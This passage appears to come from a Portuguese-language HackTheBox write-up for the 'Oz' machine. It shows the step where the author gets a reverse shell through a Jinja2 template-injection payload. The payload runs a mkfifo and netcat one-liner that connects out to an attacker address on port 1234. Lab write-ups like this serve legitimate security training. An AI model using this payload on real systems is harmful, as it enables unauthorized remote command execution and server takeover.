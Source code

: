 ### Reverse shell! 😈

Para pegarmos shell reversa no servidor, eu utilizei este payload que confere uma reverse shell com netcat e jinja2:

```python
{{config.__class__.__init__.__globals__['os'].popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 1234 >/tmp/f').read()}}
```

![Untitled](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/Untitled%2011.png)

![mp4.gif](Oz%20-%20HackTheBox%20Writeup%2070ece9237c34438baab3b83f5dd3cffc/mp4.gif)

---

